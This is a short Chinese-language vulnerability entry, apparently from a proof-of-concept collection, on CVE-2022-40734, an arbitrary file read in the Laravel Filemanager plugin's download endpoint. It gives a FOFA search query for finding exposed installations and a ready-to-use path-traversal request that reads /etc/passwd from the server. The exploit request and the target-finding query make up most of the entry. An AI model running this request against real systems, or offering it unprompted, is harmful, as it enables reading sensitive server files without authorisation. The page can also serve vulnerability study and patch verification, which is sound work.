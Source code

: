 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## FOFA

```
"Laravel Filemanager"
```

## 漏洞复现

主页面

![image-20221008100131910](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081001002.png)

验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![image-20221008100154056](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081001131.png)